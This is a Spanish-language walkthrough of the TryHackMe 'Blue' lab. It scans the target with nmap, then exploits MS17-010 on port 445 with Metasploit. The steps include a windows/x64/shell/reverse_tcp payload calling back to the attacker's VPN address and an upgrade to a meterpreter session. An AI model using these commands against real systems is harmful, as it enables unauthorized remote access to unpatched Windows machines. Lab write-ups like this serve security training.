 # THM - Blue
[TryHackMe-Blue](https://tryhackme.com/room/blue)

Para comenzar el análisis se realiza un **nmap** a la ip de la máquina.

![Nmap1](/img/blue1.png)

![Nmap2](/img/blue3.png)

Gracias a este escaneo, podemos ver que hay un total de 3 puertos abiertos con un número menor que el 1000.

*Try Hack Me*  
![THM1](/img/blue2.png)

Se busca una vulnerabilidad concreta para el servicio que se encuentra en el puerto 445. 

![Nmap3](/img/blue4.png)

*Try Hack Me*  
![THM2](/img/blue5.png)

A continuación hay que encontrar algún *exploit* para la vulnerabilidad encontrada. Para ello se va a utilizar **Metasploit**, el cual se ejecuta escribiendo *msfconsole* en la línea de comandos.
```
search ms-17-010
```

![search](/img/blue6.png)

*Try Hack Me*  
![THM3](/img/blue7.png)

Elegir el exploit y ver sus opciones:
```
use 0
show options
set rhosts (ip THM)
set lhost (ip vpn)
set payload windows/x64/shell/reverse_tcp
run
```

![options](/img/blue9.png)

*Try Hack Me*  
![THM4](/img/blue8.png)

Una vez se haya ejecutado el exploit aparecerá la línea de comandos de la máquina vulnerable.

![shell](/img/blue10.png)

Pulsar *Ctrl + Z*.

![session](/img/blue15.png)

De esta forma conocemos la sesión en la que se encuentra la shell, lo cual será necesario más adelante.

A continuación se va a buscar un *exploit* de *shell_to_meterpreter* en Metasploit.

![search2](/img/blue11.png)

*Try Hack Me*  
![THM5](/img/blue12.png)

Una vez seleccionado el *exploit* se muestran las opciones:

![options2](/img/blue13.png)

*Try Hack Me*  
![THM6](/img/blue14.png)

```
set lhost (ip vpn)
set session (nº sesión encontrada)
run
```

Una vez convertida la sesión hay que seleccionarla para poder utilizar la línea de comandos.

![shell](/img/blue16.png)

Puede verse el usuario con el que se ha accedido y el registro de procesos.

![whoami](/img/blue17.png)

![tasklist](/img/blue18.png)


